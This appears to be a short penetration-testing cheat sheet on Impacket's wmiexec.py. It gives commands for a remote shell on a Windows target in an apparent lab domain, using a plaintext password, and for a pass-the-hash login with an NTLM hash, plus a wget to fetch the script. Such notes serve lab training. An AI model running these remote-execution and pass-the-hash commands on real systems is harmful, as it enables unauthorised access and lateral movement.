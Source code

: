 **This tool is part of impacket suite.**
```python
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py marvel.local/groot:Password1@$TARGET
```
or
```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/wmiexec.py
```
#### Shell with wmi.py
When we have valid credentials, we can simply login to target.
```python
wmiexec.py marvel.local/fcastle:Password1@$TARGET
```
#### Passing the hash
When we have username and hash, we can login to target.
```python
wmiexec.py marvel.local/fcastle@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```